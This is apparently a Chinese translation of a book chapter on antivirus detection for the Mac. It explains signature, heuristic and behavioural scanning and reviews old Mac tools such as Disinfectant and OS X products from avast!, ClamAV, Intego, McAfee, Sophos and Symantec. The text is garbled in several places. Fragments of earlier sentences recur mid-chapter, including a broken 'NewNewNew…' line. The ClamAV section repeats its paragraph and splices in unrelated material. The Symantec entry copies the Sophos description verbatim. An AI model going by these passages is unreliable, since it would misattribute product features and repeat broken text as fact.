木马（或“恶意”一词）的定义基于功能，而非意图。例如，如果一个键盘记录器是在经同意的情况下安装的，并且不构成未经授权的访问或修改（引用英国的《计算机滥用法》），那么它的功能和代码可能是完全相同的，无论它是否被定义为恶意或木马。计算机（或更准确地说，程序）通常不如人类能够判断意图，这导致在自动化检测方面存在明显的问题。

如果我可以引用自己的话：让程序恶意的并不是程序做了什么，而是程序员的坏意图与程序用户预期之间的差距……（www.eset.com/download/whitepapers/HeurAnalysis(Mar2007)Online.pdf）。

然而，深入研究启发式分析的细节还为时过早。

### 经典的反恶意软件检测技术

人们广泛认为所有 AV 扫描器的工作方式非常相似，使用所谓的签名检测，因此只能检测已知病毒。事实上，静态签名检测只是现代扫描器可能使用的技术之一，如下所示，尽管这些技术之间实际上存在大量的重叠，特别是最后三种，大多数扫描器都使用这些方法的组合。

- 静态签名
- 通用分析
- 启发式分析
- 行为分析
- 动态分析

扫描器主要分为两种：访问时（实时或内存驻留）和按需。访问时扫描器是一个持续过程；它们随系统启动并一直运行到系统关闭或重启。它们不扫描整个系统。它们通常检查：

- 启动时的系统区域。
- 被访问、读取或写入的文件、文件夹、移动媒体和共享驱动器。
- 它们可能检查签名和引擎更新、补丁等的可用性，或者这可能是另一个进程的工作。

这些活动并非没有处理开销，某些扫描器在扫描期间会显示出明显的延迟（处理延迟）。延迟在某种程度上与需要扫描的威胁数量成比例，尽管现代扫描器使用先进的技术来减少扫描对个人计算体验的影响。对于仅扫描 Mac 威胁的产品，这可能是一个次要考虑的因素。

### 虚假的安全感

某些 Mac 工具供应商包含对旧式 Mac 恶意软件的扫描，但忽略了跨平台问题（包括宏病毒）。这是一个坏主意，因为可能导致终端用户认为他们获得的保护比实际情况多。微软曾经在其其他技术软件的一些版本中包含此功能，但似乎已经放弃了这种做法。

正如后文讨论的，仅检测有限范围恶意软件的免费安全工具在 Mac 恶意软件的历史中偶尔占有一席之地，但在商业软件中没有立足之地，除非非常明确它们不是工业级解决方案。

大多数主流商业供应商没有专门的 Mac 产品线。更多时候，他们的 Mac 产品是其 PC 桌面和服务器托管范围的“增值服务”，因此他们的客户期望他们的 Mac 扫描器将检测 PC/Windows 恶意软件，也可以检测 Mac 特有的恶意软件（尽管情况并非总是如此）。Intego 非常出色，它们仅提供 Mac 产品线（尽管它们会为使用双系统的 Mac 用户授权使用 BitDefender 的反病毒软件和反垃圾邮件软件）。尽管如此，它们在针对 OS X 专门的 VirusBarrier 中也包含了对 Windows 文件病毒的检测。

这可能在一定解释了某些 Mac 反恶意软件的潜在或实际用户所产生的怨恨，他们认为使用反恶意软件措施需要损害自己机器的性能，以便检测那些对他们个人并不构成威胁的恶意软件。

按需扫描器要么在预设的时间执行，要么因为计算机用户选择运行扫描（在执行了比通常更具风险的操作后，或者因为用户怀疑系统中存在规避了访问保护的恶意软件，例如在签名可用以清理新感染之前恶意软件就已经夺取了控制）。扫描器还可能在引擎或签名更新后自动启动，这在现在已不常见，因为大多数厂商每天会更新几次签名，而大多数终端用户会对每天启动几次的“全文件”扫描感到担忧。一些研究人员（包括我在内）认为，在使用了良好的实时访问扫描器的情况下，每日计划扫描并不是必要的。然而，（可能频率较低的）全盘扫描可以减少恶意软件潜伏在系统阴暗、极少访问的角落而未被检测到的风险。某些扫描器尝试通过在用户低负载期间、关机时等运行扫描来缓解资源密集型后台扫描的最坏影响。

值得记住，在某些情况下，按需扫描将无法检测恶意软件（例如当它潜伏在加密压缩包中），而实时访问扫描器会在其解压并执行后检测到它。

反恶意软件厂商还可能使用许多其他方法，取决于平台和拓扑结构，甚至可能被整合到主扫描模块中：

- 完整性监控、检查、校验和计算、更改检测、对象对齐。程序维护一个系统上每个可执行文件的校验和或哈希值数据库，并检查可能意味着攻击的变化
- 按文件类型过滤
- 流量分析
- 沙箱技术
- 白名单
- 行为监控和/或阻止

例如，某些扫描器通过不扫描自首次扫描以来未更改的对象来加速按需扫描和实时访问扫描（你可以将其描述为完整性检查和白名单的结合）。

## 恶意软件检测与 Mac 第 4 章 139

这种扫描方法的基础是：通常可以找到一组字节序列，用于识别文件中的程序（更具体地说，是恶意代码）。实际上，这种检测在程度上取决于在扫描对象的字节序列中何处发现了它（签名、扫描字符串、搜索字符串）。对于扫描器定义数据库中的每个签名对整个文件进行线性扫描，这不仅低效且耗时，而且是产生误报的良方（在恶意软件并非真实存在的地方检测到恶意软件）。通常情况下，恶意代码特定部分可能被发现的位置受到严格限制，如果在真实的感染中永远不会在病毒代码（例如）中发现的某处发现了签名，则说明检测方法论存在缺陷。

此类缺陷实际上并不限于反病毒软件厂商。天真的产品测试人员（以及模拟病毒的生产者）通过向文件或对象中随机插入复制代码（或在其他类型恶意软件中常见的特征代码）来测试扫描器并不罕见。这可能导致被测试的扫描器在现实场景中因未检测而受到惩罚（假阴性）。反病毒厂商开发的另一种应对需要检测的恶意程序数量不可避免且急剧增长的技术是选择性扫描。也就是说，仅针对特定类型的对象扫描那些在现实中可能出现在该类型对象中的感染类型和恶意特征（这一过程通常被称为过滤）。举一个简单的例子来说，在 HyperCard 堆栈或 PC 引导扇区中寻找 WordBasic 代码是没有意义的。

事实上，签名扫描不仅限于寻找静态字节序列（甚至包括通过使用更先进的模式匹配技术可以检测到的动态序列）。在算法扫描的特殊情况下，扫描静态字符串属于算法扫描。在反恶意软件行业，算法扫描通常被理解为基于一种针对其旨在检测的病毒的特定算法。当然，扫描静态字符串是算法的，但它不是唯一可能的算法。

## 140 第 4 章 • 恶意软件检测与 Mac

通配符和类 UNIX 正则表达式为字符串搜索和模式检测提供了更大的灵活性。即使在字符串元素之间内插了随机字节序列（噪声字节），扫描器也能识别与恶意软件相关的字符串。这种技术的一个简单且经典的例子是插入无操作（NOP）指令，它们会占用处理时间但不执行任何实际操作。

签名扫描的死亡在多年来被多次预言过（甚至反病毒厂商也承认其作为纯反应性解决方案的局限性），尽管有这些局限性，它依然与我们共存。新威胁在被分析并创建新签名之前，无法通过这些手段检测到。旧威胁。

按需扫描并非检测恶意软件（例如当它潜伏在加密压缩包中），而实时访问扫描器会在其解压并执行后检测到它。

特定恶意软件的检测是算法的；它不是唯一可能的算法。

签名扫描的死亡在多年来被预言了许多次。NewNewNewNewNewNewNewNewNewNewNewNew被混淆器“伪装”。

新威胁被分析并创建新签名。

## 142 第 4 章 恶意软件检测与 Mac

# 地下笔记

## 关于检测的更多信息

ESET 的白皮书中深入讨论了检测技术，可访问：`www.eset.com/download/whitepapers/HeurAnalysis(Mar2007)Online.pdf`。Peter Szor 在 2005 年由 Addison-Wesley 出版的著作《计算机病毒研究与防御艺术》，仍是该领域最权威、最全面的公开信息来源。

病毒识别在避免漏报（未能检测到感染）和误报（错误地检测到实际上并不存在的恶意软件）之间取得平衡。激进的启发式分析意味着更高的误报（FPs）风险，因为它包含了较高比例的试错。启发式分析并非为了产生“完美”的结果，而是为了产生持续的“足够好”的结果。然而，这种方法与流行的“一厢情愿”要求（即反病毒软件应检测到所有威胁且没有任何误报）产生了潜在的冲突。

启发式扫描技术现在比 20 世纪 90 年代最初流行时复杂得多，但整体检测率已大幅下降。然而，对于旧形式的恶意软件（宏病毒、群发邮件器等）的检测率仍然很高。这是由于反恶意软件行业的局限性，以及其坚持使用反应式的特定恶意软件检测模型，面对恶意软件复杂性的增加，以及针对已更新和配置的扫描器进行有效性测试的技术。在概念上，检测复制程序是简单的，尽管数学已经证明这在技术上并不总是可行的。自动判断一个程序是机器人还是具有严重的恶意意图是一项巨大的挑战。

## 反恶意软件产品

在了解了技术基础之后，让我们来看看 Mac 平台上过去和现在的应用情况。

## OS X 之前的反恶意软件

由于我在上一章中讨论了许多或多或少过时的病毒，似乎在这里留出一些空间给同一时期的反恶意软件软件包是合理的。事实上，这不仅仅是为了历史的完整性；我们将看到某些网站推荐的已经过期了多年的产品（见图 4.7）。

### 图 4.7 当前网站上列出的过时反恶意软件

由于这些解决方案（特别是 Gatekeeper 和 Disinfectant）在某些方面与商业应用程序具有可比性。事实上，我记得在某些情况下，Disinfectant 对新 Mac 威胁的检测速度比当时提供的任何商业产品都要快。过时的商业应用在此不被考虑，因为它们现在不应该以任何形式存在。

针对某一特定大类威胁的极小子集的“一键式”解决方案具有长期且通常带有荣誉的历史，当新威胁让反病毒软件开发人员措手不及时，这些解决方案可能是受欢迎的（将对新类型威胁的检测整合到产品更新周期中需要一些时间）。然而，即使这些程序仍然可用，但据我所知，这些程序中没有一个被进一步开发，对 OS X 的应用很小或没有（甚至可能无法在最近的 Mac 硬件上运行）。如果任何读者了解更多情况，请随时告诉我，我将在 `www.macvirus.com` 发布更新信息。

我非常感谢 Susan Lesch，她是 Mac Virus 网站的创建者（该网站现在由我维护），后续页许多信息都源自她。（请注意，`www.macvirus.com` 的 Mac Virus 网站与 `www.macvirus.org` 和 `www.macvirus.net` 没有联系，我们使用 `securemac.com` 或 MacScan 反间谍软件产品。）

在这些程序仍以某种形式提供的情况下，我没有给出链接，因为我认为如果存在任何让读者被误导去信任可能无法提供任何实际检测的程序的风险，这样做是不负责任的。

Tracker INIT 和 DelProtect INIT 都由 Ioannis Galidakis 开发，最早于 1998 年发布。Tracker 是一种类似于 Gatekeeper 的行为拦截器。DelProtect 旨在防止恶意文件删除。由 Ioannis Galidakis 开发的 Scanner 于 1999 年发布，它是一个为使用 68000 Mac 的高级 Macintosh 用户的免费、通用启发式病毒扫描器。

John Dlish Agax 是一个可扩展的免费反病毒程序，它取代了他的程序 AntiGag，并使用名为“Additives”的插件定义。我上一次测试它时，Agadex 检测到并尝试检测了 SevenDust、CODE 9811 和 AutoStart 作品。该程序仍可以下载，但似乎自 1998 年以来就再没有开发过，因此我不会在这里提供 URL。

来自 Laffey Computer Imaging 的 Exorcist 试图提供针对 SevenDust 的保护。它仍然可以从 Laffey 获得，但似乎没有更新过。

Gatekeeper 不是扫描器，而是一个通用工具。其作者自 20 世纪 90 年代以来不再支持，但在某些网站仍然可用。

1997 年 1 月，PC 工具 DiskSecure 的作者 Padgett Peterson 发布了 MacroList 宏检测工具的第一版本。这不是病毒扫描器，但允许禁用宏、列出当前文档中发现的任何宏等。这种方法在当时非常有用，但由于微软最近版本的 Microsoft Office 增强了安全性，已很大程度上过时。

## 160 恶意软件检测与 Mac • 第 4 章

Clarence Locke 开发的 WormGuard 是一种针对 AutoStart 的免费即时访问扩展。许多免费扫描器也针对 AutoStart 目标取得了不同程度的成功，包括 James Walker 的 WormScanner、Akira Nagata 的 Autostart Hunter、Mountain Ridge Data 的 BugScan、Jim Kreinbrick 的 Worm Goblin、MacOffice 的 Inoculator、Doug Baer 的 WormGuard 以及 Eradicator。

正如上一章提到的，还有针对 HyperCard 用户的许多免费扫描器和其他保护程序，特别是 Ken Dunham 和 Bill Swagerty 开发的。

### Disinfectant

John Norstad 的 Disinfectant 可能是任何平台上发布过的最好的反病毒产品之一，考虑到它基本上是一个单人的运营。他在 1998 年退休了，因为他没有时间或资源来扩展其功能以检测泛滥的 Mac 病毒。它不能检测 Mac 特有的恶意软件，如 AutoStart 或 SevenDust。Disinfectant 是一款优秀的免费反病毒扫描器，具有典范级的文档，但它不能检测 Mac 商业软件包的所有形式的恶意软件。特别是，它不能检测：

- HyperCard 感染病毒
- 大多数木马
- 玩笑程序
- 宏病毒

与当时的大多数商业软件包不同，它也不扫描任何类型的压缩文件；必须在扫描之前进行解压。

Norstad 宣布了 Disinfectant（消毒软件）的停止，并建议如果公开代码，将可能对其进行维护和进一步开发，或许作为免费软件产品。这忽略了 Norstad 公告的要点之一，即承认继续开发一个只能检测一类病毒的扫描器是有危险的，因为当时仍有许多人错误地认为它是一个完整的解决方案。

事实上，Disinfectant 得到了进一步开发。VirusScan for Mac 的第一个版本是基于 Disinfectant 技术（在许可下）开发的，而与一群缺乏主流反病毒开发团队所需的专业技能和资源、但心怀善意的个人相比，NAI（现为 McAfee）显然更有能力将其开发为商业级软件。事实证明，将 Disinfectant 开发为全功能商业扫描器扩大了它检测的威胁范围，但导致了旧款 Mac 明显的性能下降。然而，当 NAI 收购 Dr. Solomon's 时，他们获取了两款 Mac 扫描器：一个是奇特但高效的 Dr. Solomon's for Mac（他们很快就将其淘汰），另一个是同样有效的 Virex。现在 McAfee 销售的产品是基于 Virex 的。

然而，我仍然认为，对于一群没有反病毒开发所需的专业资源和人脉的程序员来说，他们面临的工作可能比想象的要困难得多。将代码公开，即使是在有限的范围内，也可能增加其落入不负责任之手中的机会。事实上，在线文档长期以来说明检测引擎的代码是不可用的，尽管部分接口代码是可以使用的。一个由意图良好的业余人士组成的委员会（或一个没有人脉的野心勃勃的业余人士）能否将 Disinfectant 开发到在其有效寿命内所实现的高标准？ClamAV 证明了，尽管与主流反病毒社区的关系相当糟糕，一个产品仍然可以维护到令人惊讶的高标准。ClamAV 及其针对 Mac 的同类软件 ClamXV 将在后续关于 OS X 反恶意软件的章节中介绍。

“病毒与 Macintosh”的常见问题解答（FAQ）列了一份功能有限的产品列表（例如，SevenDust 和/或 AutoStart 检测）。有时有一种观点认为，当商业供应商响应缓慢时，短期内使用此类工具是合理的。然而，除了单位成本外，在企业环境中可能永远不存在长期使用此类工具并优于合格的商业恶意软件扫描器的案例。尽管如此，这需要与不具备工业级反病毒软件的潜在成本进行权衡。

### 反恶意软件与 OS X


# 本章这一节将专门介绍 OS X 的反恶意软件产品

本章这一节将专门介绍 OS X 的反恶意软件产品，特别是商业产品，还会考虑一些常用的开源产品。不过，我不会告诉你哪一个是“最好”的，甚至不会告诉你是否应该全部使用反恶意软件程序。虽然保护系统免受恶意软件的影响不止于此，但我不会尝试涵盖这些供应商提供的所有相关安全产品。这不仅是因为时间和空间上的问题，还因为在这样的书中进入这些细节注定了当它到达书店时，一家公司已被微软收购，而另一家将完全撤出其 Mac 产品线。其中一家将完全翻新其产品线并更改名称，我不会提到许多供应商可能很快就会在其产品线中引入 Mac 扫描功能，以防他们改变主意。

## avast!

ALWIL Software 是一家位于捷克的公司，自 1988 年以来一直在开发安全产品。其旗舰产品线是 `avast!` AV 系列，他们的 Mac 产品于 2008 年发布（见图 4.8）。

`avast!` Mac 版需要以下最低硬件和软件规格：

- 任何运行 OS X 10.4 (Tiger) 或 Mac OS X 10.5 (Leopard) 的 Intel 版 Mac，配备 128 MB（优选 256MB）内存和 50 MB 空闲磁盘空间。
- 任何带有 PowerPC G3 或更高版本 CPU 的 Mac，具有相同的最低操作系统、随机存储器（RAM）和可用磁盘空间要求。

不支持更早的 CPU、OS X 操作系统或早于 10.4 (Tiger) 的 OS X 版本。不支持 Apple 服务器的特定平台支持。这是一款桌面产品。它检测与其 Windows 版本相同范围的 PC 和 Windows 恶意软件。


### 图 4.8 反病毒软件 AV Mac 版



该软件包包含完全访问和按需扫描、邮件保护、隔离、自动更新等，并提供 60 天试用版。

访问 `www.avast.com`。

## ClamAV

Apple 相当喜欢开源软件，并在 Mac OS X 中包含了垃圾邮件过滤器 `SpamAssassin` 和电子邮件反病毒扫描器 `ClamAV`（图 4.9）。`ClamAV` 专为电子邮件网关设计，而且应该说，如果说我早期对免费软件的观察有一个例外，那么 `ClamAV` 就是那一个。

虽然它不能检测到成熟商业软件所涵盖的全范围威胁，且在功能上无法与那些软件包相比，但在跟踪新的邮件携带威胁方面有着卓越的记录。事实上，最近宣布“signmaker”团队处理了他们的一百万个样本。在线文档长期以来说明检测引擎的代码是不可用的，尽管部分接口代码是可以使用的。一个由意图良好的业余人士组成的委员会（或一个没有人脉的野心勃勃的业余人士）能否将 `Disinfectant` 开发到在其有效寿命内所实现的高标准？嗯，`ClamAV` 证明了，尽管与主流反病毒社区的关系相当糟糕，一个产品仍然可以维护到令人惊讶的高标准。`ClamAV` 及其针对 Mac 的同类软件 `ClamXV` 将在后续关于 OS X 反恶意软件的章节中介绍。

虽然它不能检测到成熟商业软件所涵盖的全范围威胁，且在功能上无法与那些软件包相比，但在跟踪新的邮件携带威胁方面有着卓越的记录。事实上，最近宣布“signmaker”团队处理了他们的一百万个样本。在线文档长期以来说明检测引擎的代码是不可用的，尽管部分接口代码是可以使用的。一个由意图良好的业余人士组成的委员会（或一个没有人脉的野心勃勃的业余人士）能否将 `Disinfectant` 开发到在其有效寿命内所实现的高标准？嗯，`ClamAV` 证明了，尽管与主流反病毒社区的关系相当糟糕，一个产品仍然可以维护到令人惊讶的高标准。事实上，由于 `ClamAV` 由 `Sourcefire` 支持，它可能获得商业支持包。如果邮件威胁成为一个问题，由于它在 2008 年 1 月和 2 月期间收到了超过一百个样本，我认为反病毒社区双方之间可以从更好的合作中受益（另见 `www.sourcefire.com/products/clamav/`）。它对 Mac 威胁的检测率接近零（另见 `www.clamav.org`）。

### 图 4.9 ClamAV



## ClamX

`ClamX`（`www.clamav.org`）根据开发者介绍，是一个 Mac 或 OS X 的免费病毒检查器，使用 `ClamAV` 引擎作为后端，尽管它并未完全支持 `ClamAV` 的所有功能（例如数字签名）。遗憾的是，它基于对恶意软件问题和良好实践的许多误解，并且正如作者所说，它是免费的。作者似乎认为没有 Mac 恶意软件问题，因此目前在 Mac 上运行反恶意软件的原因是为了 Windows 用户。他提到该程序存在许多令人不安的问题和问题：

- 除了使用某种变通方法，无法进行全盘扫描。
- 作者指出该程序会无意中移动文件，并建议在运行程序之前进行完整备份，指出他“不应被”协助此类问题。
- 不对 Mac 特定的威胁提供支持（特别是 `Renepe/Opener`，理由是存疑的，它不是病毒或蠕虫，而是概念证明 [PoC]）。
- 在邮件隔离方面存在严重问题。如果程序配置为隔离感染文件，而扫描器发现了感染邮件，整个邮箱会被隔离，这可能会造成巨大的困难。见图 4.10。

### 图 4.10 ClamX 的邮箱问题



当作者对上述问题的最后表态是时，推荐一个产品（即使是免费产品）是很难的：“遗憾的是，我无法提供更多建议了，如果这些建议不起作用，我恐怕你只能自生自灭。我也通过惨痛的经历学会了备份的重要性！”

## Integro VirusBarrier

`Integro`（`www.integro.com`）作为一家专注于仅限 Mac 安全产品的发行商，在该领域内独辟蹊径。它的范围包括一个名为 `NetBarrier` 的个人防火墙/IDS 程序，提供一系列网络监控和过滤功能。`Integro` 的主要反病毒程序 `VirusBarrier` 包含访问时扫描和按需扫描，包括启发式分析和行为分析、隔离、电子邮件扫描、自动更新以及对 Windows 病毒的可选检测。当前版本需要 Mac OS X 10.4 (Tiger) 或 10.5 (Leopard)，以及 40MB 的空硬盘空间。

在 Intel Mac 上通过 `Boot Camp`、`Parallels` 和 `VMware Fusion` 运行 Windows 的 Mac 用户可以购买套件（`VirusBarrier X5` 双重保护）（见图 4.11），该组合包含用于原生 Mac 保护的 `VirusBarrier` 和用于 Windows 恶意软件检测的 `BitDefender`（支持 Windows 2000 SP4、带有 SP2 的 XP 或 Vista 32 位）。

虽然 `Integro` 在杀毒软件（AV）研究社区中也不特别为人知，但其重要性不应被低估。当一些较大的公司仍倾向于将其斥为“炒作”时，他们是第一个让社区关注 `OSX/DNSChanger` 木马的人。

### 图 4.11 VirusBarrier 双重保护



## MacScan

这是一款反间谍软件应用程序（图 4.12），可以从 `http://macscan.securemac.com` 获取，该网站是由 `Nicholas Raba` 管理的 Mac 安全站点（与之相比，`www.macvirus.org` 网站的管理方式由于考虑到该网站目前面临的问题（见前一章），显得有点令人不安）。请谨慎使用。

### 图 4.12 MacScan 反间谍软件安装程序



## McAfee Virex/VirusScan for Mac

曾几何时，`Virex` 有适用于 PC 和 Mac 的版本（`www.mcafee.com`），尽管 PC 版本在多年前就消失了。Mac 版被 `Dr. Solomon's` 收购，当 `Dr. Solomon's` 转被 `Network Associates/McAfee` 收购时，他们放弃了基于 `Disinfectant` 的原始 Mac `VirusScan` 以及 `Dr. Solomon's` Macintosh 版，转而专注于 `Virex` 的开发，尽管 `VirusScan` 这个名字最近又活跃了起来（图 4.13）。

正如你预期的，该产品提供访问时扫描和按需扫描、自动更新、针对 Mac、UNIX 和 Windows 恶意软件的跨平台检测、与企业管理软件集成、启发式分析和通用检测。通用系统要求如下：

### McAfee VirusScan for Mac 8.6

- Mac OS X Tiger (10.4.6 或更高版本)，Mac OS X Leopard (10.5 或更高版本)
- 基于 Intel 或 PowerPC 的 Macintosh
- 512 MB RAM
- 至少 45MB 磁盘空间

### McAfee Virex 7.7 for Macintosh

- Apple Mac OS X v10.2.6 (Jaguar) 或更高版本，Mac OS X v10.3.3 (Panther) 或更高版本，Mac OS X v10.4 (Tiger) 或更高版本
- 266 MHZ Power PC G3 (或更高)
- 128 MB RAM

### McAfee Virex 6.2 for Macintosh

- Mac OS 8.1 或更高版本
- Motorola 68030 或更高版本处理器，或 PowerPC 601 或更高版本
- 至少 8 MB 可用 RAM
- 至少 15 MB 可用硬盘空间

### 图 4.13 Virex/VirusScan



## Sophos

`Sophos`（`www.sophos.com`）多年来一直为企业提供访问时、按需和定期的病毒检测、自动更新等服务，包括 Mac 扫描。`Sophos Endpoint Security and Control`（见图 4.14）运行在 Macintosh 服务器、桌面电脑和笔记本电脑上，并在多平台环境（Windows、Mac、Linux）中与企业控制台集成。它包含对非 Macintosh 恶意软件（包括 Windows）的检测以及高级行为分析。它包含了“Decision Caching™”技术，为了提高速度，文件在上次扫描后发生变化或出现时才会被扫描。（如果我没记错，这项技术是 `Sophos` 多年前引入的创新，尽管包括 `Intego` 在内的其他供应商也推出了类似的技术。）

系统要求如下：

- Mac OS 10.2.8/10.3/10.4/10.5
- 基于 Intel 的 Mac（32 位和 64 位），或基于 PowerPC 的 Mac
- 77 MB 空磁盘空间
- 128 MB 内存
- `Sophos` 企业控制台需要

### 图 4.14 Sophos Endpoint Security



## Symantec

在编写时，`Symantec`（`www.symantec.com`）提供了访问时、按需和定期的病毒检测、自动更新等服务，多年来包括 Mac 扫描。`Endpoint Protection and Control`（见图 4.15）运行在 Macintosh 服务器、桌面电脑和笔记本电脑上，并在多平台环境（Windows、Mac、Linux）中与企业控制台集成。它包含对非 Macintosh 恶意软件（包括 Windows）的检测以及高级行为分析。它包含了“Decision Caching™”技术，为了提高速度，文件在上次扫描后发生变化或出现时才会被扫描。（如果我没记错，这项技术是 `Sophos` 多年前引入的创新，尽管包括 `Intego` 在内的其他供应商也推出了类似的技术。）

系统要求如下：

